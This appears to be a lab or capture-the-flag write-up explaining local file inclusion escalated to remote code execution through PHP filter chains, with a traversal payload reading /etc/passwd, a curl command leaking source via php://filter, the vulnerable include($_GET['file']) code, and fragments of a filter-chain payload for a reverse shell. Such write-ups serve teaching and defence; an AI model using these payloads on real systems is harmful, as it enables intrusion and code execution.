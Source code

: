 
This is the content of the message: 
<img width="1139" height="194" alt="image" src="https://github.com/user-attachments/assets/9ee7d9ca-bc27-47d3-8777-ddd8d5efb60a" />

Meaning? This is where we will try for **LFI2RCE Via PHP Filter**.

### LFI2RCE Via PHP Filter
 
Here are some examples of [Local File Injection vulnerability:](https://exploit-notes.hdks.org/exploit/web/security-risk/file-inclusion/#local-file-inclusion-(lfi)) 
1. Include another file -> `secret-script.php?file=about.php`
2. Directory Traversal -> `secret-script.php?file=../../etc/passwd`

<img width="997" height="811" alt="image" src="https://github.com/user-attachments/assets/fb9fed89-f8e4-4bec-a386-ad1a72550dfd" />


3. `php://filter `-> and this is our test object. It is a PHP stream wrapper that lets you apply filters to a file stream. We can use this feature to leak the source code

```bash
curl -s http://10.10.76.15/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php | base64 -d
<?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
?>

```
The script reads the user input from the `file` parameter and includes it. That content is treated as PHP source code and executed. By abusing [`php://filter`](https://www.php.net/manual/en/wrappers.php.php) feature, we can generate a reverse shell without writing to a file. This is done by a script that will generate a base64 string at the beginning, then for each base64 character, it appends a very specific sequence of encodings that eventually decode that character byte-by-byte. The code uses [`php://temp`](https://www.php.net/manual/en/wrappers.php.php), which is a read-write stream that allows temporary data to be stored in a file-like wrapper.

The massive chain is needed because:
- Some character sets discard or transform invalid bytes.
- You need to sanitize/reshape each character of your base64 string.
- You want to trick PHP into outputting valid decoded PHP code at the end.

The final payload: This ends the chain and makes sure the string is converted into something the PHP engine can evaluate.
```py
filters += "convert.base64-decode"
final_payload = f"php://filter/{filters}/resource=php://temp"
```
Immediately `include()` the contents of that stream as if it were a PHP file.
```php
include('php://filter/.../resource=php://temp');
```
For more info, [visit](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d).
